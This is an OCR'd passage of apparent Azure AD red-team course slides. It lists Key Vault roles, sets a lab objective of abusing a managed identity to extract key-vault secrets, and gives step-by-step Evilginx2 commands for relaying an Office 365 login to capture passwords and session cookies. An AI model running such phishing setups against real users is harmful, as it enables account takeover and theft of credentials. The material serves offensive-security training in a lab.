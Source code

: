 Key Vault Certificates Officer Perform any action on certificates. Cannot manage permissions. Yes (Certificates)

Key Vault Crypto Officer Perform any action on keys. Cannot manage permissions. Yes (Keys) Key Vault Secrets Officer Perform any action on secrets. Cannot manage permissions. Yes (Secrets) Key Vault Secrets User Read secret contents. Yes (Secrets) Key Vault Crypto Service Encryption User

```
Read metadata and perform wrap/unwrap operationson keys No
```

Key VaultCrypto User Perform cryptographic operations using keys No Key Vault Reader Read metadata of key vaults and its certificates, keys, and secrets.

```
No
```

## Learning Objective - 16

* Abuse the permissions that Managed Identity of the 'vaultfrontend' App Service has to extract secrets from a key vault.
* Use the secrets to gather more information from the defcorphq tenant.

Part of - Kill Chain - 2 Topics covered -Authenticated Enumeration, Privilege Escalation and Data Mining

## Initial Access - Phishing - Evilginx2

* We can use Evilginx2 (https://github.com/kgretzky/evilginx2) for phishing attacks.
* Evilginx acts as a relay/man-in-the-middle between the legit web page and the target user. The user always interacts with the legit website and Evilginx captures usernames, passwords and authentication cookies.
* It uses phishlets that are configuration files for specific target domains. These are YAML files that specify conditions like hosts, filters, structure of authentication cookies and credentials.

## Initial Access - Phishing - Evilginx2

* Evilginx2 is already setup on the student VMs. We can use the following commands.
* Start evilginx2 evilginx2 -p C:\AzAD\Tools\evilginx2\phishlets
* Configure the domain config domain studentx.corp
* Set the IP for the evilginx server config ip 172.16.x.x
* Use the template for Office 365 phishlets hostname o365 login.studentx.corp
* Verify the DNS entries phishlets get-hosts o365

## Initial Access - Phishing - Evilginx2

* Copy the certificate and private key - o365.crt and o365.key from C:\student **x** .evilginx\crt to C:\student **x** .evilginx\crt\login.student **x** .corp
* Enable phishlets phishlets enable o365
* Create the phishing URL (tied to an ID) lures create o365
* Get the phishing URL lures get-url
* Share the URL with the victim. (For the lab, send an email using your personal email).
